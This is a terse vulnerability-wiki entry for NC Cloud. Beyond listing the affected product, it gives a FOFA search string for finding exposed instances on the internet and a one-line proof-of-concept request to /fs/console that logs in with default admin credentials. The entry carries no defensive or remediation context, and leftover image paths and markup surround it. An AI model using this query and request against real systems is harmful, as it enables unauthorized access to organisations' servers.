<languages />

<translate>

影響版本
--------

</translate> NC Cloud

FOFA
----

    "NCCloud"

POC
---

    /fs/console?username=admin&password=123456